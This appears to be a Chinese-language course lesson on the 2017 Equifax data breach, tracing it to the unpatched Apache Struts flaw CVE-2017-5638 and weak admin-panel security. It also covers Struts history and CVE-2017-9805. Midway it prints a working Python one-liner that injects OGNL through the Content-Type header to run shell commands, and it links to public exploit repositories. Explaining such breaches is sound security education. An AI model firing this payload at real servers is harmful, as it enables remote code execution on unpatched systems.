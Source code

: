 # Equifax信息泄露始末

![1](../img/003/1.png)

相信你一定有所耳闻，9 月份美国知名征信公司 Equifax 出现了大规模数据泄露事件，致使 1.43 亿美国用户及大量的英国和加拿大用户受到影响。今天，我就来跟你聊聊 Equifax 信息泄露始末，并对造成本次事件的原因进行简单的分析。  

## Equifax 信息泄露始末

Equifax 日前确认，黑客利用了其系统中未修复的 Apache Struts 漏洞（CVE-2017-5638，2017 年 3 月 6 日曝光）来发起攻击，导致了最近这次影响恶劣的大规模数据泄露事件。  

作为美国三大信用报告公司中历史最悠久的一家，Equifax 的主营业务是为客户提供美国、加拿大和其他多个国家的公民信用信息。保险公司就是其服务的主要客户之一，涉及生命、汽车、火灾、医疗保险等多个方面。  

此外，Equifax 还提供入职背景调查、保险理赔调查，以及针对企业的信用调查等服务。由于 Equifax 掌握了多个国家公民的信用档案，包括公民的学前和学校经历、婚姻、工作、健康、政治参与等大量隐私信息，所以这次的信息泄露，影响面积很大，而且性质特别恶劣。  

受这次信息泄露影响的美国消费者有 1.43 亿左右，另估计约有 4400 万的英国客户和大量加拿大客户受到影响。事件导致 Equifax 市值瞬间蒸发掉逾 30 亿美元。  

根据《华尔街日报》（The Wall Street Journal）的观察，自 Equifax 在 9 月 8 日披露黑客进入该公司部分系统以来，全美联邦法院接到的诉讼已经超过百起。针对此次事件，Equifax 首席执行官理查德·史密斯（Richard Smith）表示，公司正在对整体安全操作进行全面彻底的审查。  

事件发生之初，Equifax 在声明中指出，黑客是利用了某个“U.S. website application”中的漏洞获取文件。后经调查，黑客是利用了 Apache Struts 的 CVE-2017-5638 漏洞。  

戏剧性的是，该漏洞于今年 3 月份就已被披露，其危险系数定为最高分 10 分，Apache 随后发布的 Struts 2.3.32 和 2.5.10.1 版本特针对此漏洞进行了修复。而 Equifax 在漏洞公布后的两个月内都没有升级 Struts 版本，导致 5 月份黑客利用这个漏洞进行攻击，泄露其敏感数据。  

事实上，除了 Apache 的漏洞，黑客还使用了一些其他手段绕过 WAF（Web 应用程序防火墙）。有些管理面板居然位于 Shodan 搜索引擎上。更让人大跌眼镜的是，据研究人员分析，Equifax 所谓的“管理面板”都没有采取任何安保措施。安全专家布莱恩·克雷布斯（Brian Krebs）在其博客中爆料，Equifax 的一个管理面板使用的用户名和密码都是“admin”。  

由于管理面板能被随意访问，获取数据库密码就轻而易举了——虽然管理面板会加密数据库密码之类的东西，但是密钥却和管理面板保存在了一起。虽然是如此重要的征信机构，但 Equifax 的安全意识之弱可见一斑。  

据悉，Equifax 某阿根廷员工门户也泄露了 14000 条记录，包括员工凭证和消费者投诉。本次事件发生后，好事者列举了 Equifax 系统中的一系列漏洞，包括一年以前向公司报告的未修补的跨站脚本（XSS）漏洞，更将 Equifax 推向了风口浪尖。  

## Apache Struts 漏洞相关

Apache Struts 是世界上最流行的 Java Web 服务器框架之一，它最初是 Jakarta 项目中的一个子项目，并在 2004 年 3 月成为 Apache 基金会的顶级项目。  

Struts 通过采用 Java Servlet/JSP 技术，实现了基于 Java EE Web 应用的 MVC 设计模式的应用框架，也是当时第一个采用 MVC 模式的 Web 项目开发框架。随着技术的发展和认知的提升，Struts 的设计者意识到 Struts 的一些缺陷，于是有了重新设计的想法。  

2006 年，另外一个 MVC 框架 WebWork 的设计者与 Struts 团队一起开发了新一代的 Struts 框架，它整合了 WebWork 与 Struts 的优点，同时命名为“Struts 2”，原来的 Struts 框架改名为 Struts 1。  

因为两个框架都有强大的用户基础，所以 Struts 2 一发布就迅速流行开来。在 2013 年 4 月，Apache Struts 项目团队发布正式通知，宣告 Struts 1.x 开发框架结束其使命，并表示接下来官方将不会继续提供支持。自此 Apache Struts 1 框架正式退出历史舞台。  

同期，Struts 社区表示他们将专注于推动 Struts 2 框架的发展。从这几年的版本发布情况来看，Struts 2 的迭代速度确实不慢，仅仅在 2017 年就发布了 9 个版本，平均一个月一个。  

但从安全角度来看，Struts 2 可谓是漏洞百出，因为框架的功能基本已经健全，所以这些年 Struts 2 的更新和迭代基本也是围绕漏洞和 Bug 进行修复。仅从官方披露的安全公告中就可以看到，这些年就有 53 个漏洞预警，包括大家熟知的远程代码执行高危漏洞。  

根据网络上一份未被确认的数据显示，中国的 Struts 应用分布在全球范围内排名第一，第二是美国，然后是日本，而中国没有打补丁的 Struts 的数量几乎是其他国家的总和。特别是在浙江、北京、广东、山东、四川等地，涉及教育、金融、互联网、通信等行业。  

所以在今年 7 月，国家信息安全漏洞共享平台还发布过关于做好 Apache Struts 2 高危漏洞管理和应急工作的安全公告，大致意思是希望企业能够加强学习，提高安全认识，同时完善相关流程，协同自律。  

而这次 Equifax 中招的漏洞编号是 CVE-2017-5638，官方披露的信息见下图。简单来说，这是一个 RCE 的远程代码执行漏洞，最初是被安恒信息的 Nike Zheng 发现的，并于 3 月 7 日上报。  

![2](../img/003/2.png)

从介绍中可以看出，此次漏洞的原因是 Apache Struts 2 的 Jakarta Multipart parser 插件存在远程代码执行漏洞，攻击者可以在使用该插件上传文件时，修改 HTTP 请求头中的 Content-Type 值来触发漏洞，最后远程执行代码。

说白了，就是在 Content-Type 注入 OGNL 语言，进而执行命令。代码如下（一行 Python 命令就可以执行服务器上的 shell 命令）：

```sh
import requests
requests.get("https://target", headers={"Connection": "close", "Accept": "*/*", "User-Agent": "Mozilla/5.0", "Content-Type": "%{(#_='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='dir').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}"})
```

在 GitHub 上有相关的代码，链接为：https://github.com/mazen160/struts-pwn 或 https://github.com/xsscx/cve-2017-5638

注入点是在 JakartaMultiPartRequest.java 的 buildErrorMessage 函数中，这个函数里的 localizedTextUtil.findText 会执行 OGNL 表达式，从而导致命令执行（注：可以参看 Struts 两个版本的补丁“2.5.10.1 版补丁”“2.3.32 版补丁”），使客户受到影响。

因为默认情况下 Jakarta 是启用的，所以该漏洞的影响范围甚广。当时官方给出的解决方案是尽快升级到不受影响的版本，看来 Equifax 的同学并没有注意到，或者也没有认识到它的严重性。

另外，在 9 月 5 日和 7 日，Struts 官方又接连发布了几个严重级别的安全漏洞公告，分别是 CVE-2017-9804、CVE-2017-9805、CVE-2017-9793 和 CVE-2017-12611。

这里面最容易被利用的当属 CVE-2017-9805，它是由国外安全研究组织 lgtm.com 的安全研究人员发现的又一个远程代码执行漏洞。漏洞原因是 Struts 2 REST 插件使用带有 XStream 程序的 XStream Handler 进行未经任何代码过滤的反序列化操作，所以在反序列化 XML payloads 时就可能导致远程代码执行。

![3](../img/003/3.png)

不过在 Apache 软件基金会的项目管理委员会的回应文章中，官方也对事故原因进行了分析和讨论。首先，依然不能确定泄露的源头是 Struts 的漏洞导致的。其次，如果确实是源于 Struts 的漏洞，那么原因“或是 Equifax 服务器未打补丁，使得一些更早期公布的漏洞被攻击者利用，或者是攻击者利用了一个目前尚未被发现的漏洞”。

根据推测，该声明提出黑客所使用的软件漏洞可能就是 CVE-2017-9805 漏洞，该漏洞虽然是在 9 月 4 日才由官方正式公布，但早在 7 月时就有人公布在网络上了，并且这个漏洞的存在已有 9 年。

相信通过今天的分享，你一定对 Equifax 的数据泄露始末及造成原因有了清楚的了解。欢迎把你的收获和想法，分享给我。下节课中，我们将回顾一下互联网时代的其他大规模数据泄露事件，并结合这些事件给出应对方案和技术手段。

